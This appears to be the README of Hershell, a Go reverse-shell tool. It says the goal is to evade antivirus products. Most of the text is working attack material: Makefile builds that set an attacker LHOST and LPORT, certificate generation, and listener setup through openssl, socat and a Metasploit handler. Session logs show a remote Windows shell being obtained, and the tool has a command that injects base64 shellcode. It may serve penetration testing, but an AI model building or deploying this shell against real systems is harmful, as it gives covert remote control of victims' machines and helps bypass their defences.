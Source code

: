 # Hershell

Simple TCP reverse shell written in [Go](https://golang.org).

It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

Supported OS are:

- Windows
- Linux
- Mac OS
- FreeBSD and derivatives

## Why ?

Although meterpreter payloads are great, they are sometimes spotted by AV products.

The goal of this project is to get a simple reverse shell, which can work on multiple systems,

## How ?

Since it's written in Go, you can cross compile the source for the desired architecture.

### Building the payload

To simplify things, you can use the provided Makefile.
You can set the following environment variables:

- ``GOOS`` : the target OS
- ``GOARCH`` : the target architecture
- ``LHOST`` : the attacker IP or domain name
- ``LPORT`` : the listener port

For the ``GOOS`` and ``GOARCH`` variables, you can get the allowed values [here](https://golang.org/doc/install/source#environment).

However, some helper targets are available in the ``Makefile``:

- ``depends`` : generate the server certificate (required for the reverse shell)
- ``windows32`` : builds a windows 32 bits executable
- ``windows64`` : builds a windows 64 bits executable
- ``linux32`` : builds a linux 32 bits executable
- ``linux64`` : builds a linux 64 bits executable

For those targets, you just need to set the ``LHOST`` and ``LPORT`` environment variables.

### Using the shell

Once executed, you will be provided with a remote shell.
This custom interactive shell will allow you to execute system commands through `cmd.exe` on Windows, or `/bin/sh` on UNIX machines.

The following special commands are supported:

* `run_shell` : drops you an system shell (allowing you, for example, to change directories)
* `inject <base64 shellcode>` : injects a shellcode (base64 encoded) in the same process memory, and executes it (Windows only at the moment).
* `exit` : exit gracefully

## Examples

First of all, you will need to generate a valid certificate:
```bash
$ make depends
openssl req -subj '/CN=sysdream.com/O=Sysdream/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
....................................................................................++
.....++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
```

For windows:

```bash
# Custom target
$ make GOOS=windows GOARCH=amd64 LHOST=192.168.0.12 LPORT=1234
# Predifined target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
```

For Linux:
```bash
# Custom target
$ make GOOS=linux GOARCH=amd64 LHOST=192.168.0.12 LPORT=1234
# Predifined target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
```

For Mac OS X
```bash
$ make macos LHOST=192.168.0.12 LPORT=1234
```

## Listeners

On the server side, you can use the openssl integrated TLS server:

```bash
$ openssl s_server -cert server.pem -key server.key -accept 1234
Using default temp DH parameters
ACCEPT
bad gethostbyaddr
-----BEGIN SSL SESSION PARAMETERS-----
MHUCAQECAgMDBALALwQgsR3QwizJziqh4Ps3i+xHQKs9lvp5RfsYPWjEDB68Z4kE
MHnP0OD99CHv2u27THKvCHCggKEpgrPnKH+vNGJGPJZ42QylfkekhSwY5Mtr5qYI
5qEGAgRYgSfgogQCAgEspAYEBAEAAAA=
-----END SSL SESSION PARAMETERS-----
Shared ciphers:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES256-GCM-SHA384:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES128-SHA:ECDHE-ECDSA-AES128-SHA:ECDHE-RSA-AES256-SHA:ECDHE-ECDSA-AES256-SHA:AES128-GCM-SHA256:AES256-GCM-SHA384:AES128-SHA:AES256-SHA:ECDHE-RSA-DES-CBC3-SHA:DES-CBC3-SHA
Signature Algorithms: RSA+SHA256:ECDSA+SHA256:RSA+SHA384:ECDSA+SHA384:RSA+SHA1:ECDSA+SHA1
Shared Signature Algorithms: RSA+SHA256:ECDSA+SHA256:RSA+SHA384:ECDSA+SHA384:RSA+SHA1:ECDSA+SHA1
Supported Elliptic Curve Point Formats: uncompressed
Supported Elliptic Curves: P-256:P-384:P-521
Shared Elliptic curves: P-256:P-384:P-521
CIPHER is ECDHE-RSA-AES128-GCM-SHA256
Secure Renegotiation IS supported
Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\LAB2\Downloads>
```

Or even better, use socat with its __readline__ module, which gives you a handy history feature:

```bash
$ socat readline openssl-listen:1234,fork,reuseaddr,verify=0,cert=server.pem
Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\LAB2\Downloads>
```

Or, and this is great, use a metasploit handler:

```bash
[172.17.0.2][Sessions: 0][Jobs: 0]: > use exploit/multi/handler
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set payload python/shell_reverse_tcp_ssl
payload => python/shell_reverse_tcp_ssl
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set lhost 192.168.122.1
lhost => 192.168.122.1
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set lport 4444
lport => 4444
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set handlersslcert /tmp/data/server.pem
handlersslcert => /tmp/data/server.pem
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set exitonsession false
exitonsession => false
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > exploit -j
[*] Exploit running as background job.

[-] Handler failed to bind to 192.168.122.1:4444
[*] Started reverse SSL handler on 0.0.0.0:4444
[*] Starting the payload handler...
[172.17.0.2][Sessions: 0][Jobs: 1]: exploit(handler) >
[*] Command shell session 1 opened (172.17.0.2:4444 -> 172.17.0.1:51995) at 2017-02-09 12:07:51 +0000
[172.17.0.2][Sessions: 1][Jobs: 1]: exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\lab1\Downloads>whoami
whoami
desktop-jcfs2ok\lab1

C:\Users\lab1\Downloads>
```

You can then use the ``sessions -u <id>`` command to upgrade to a meterpreter shell.
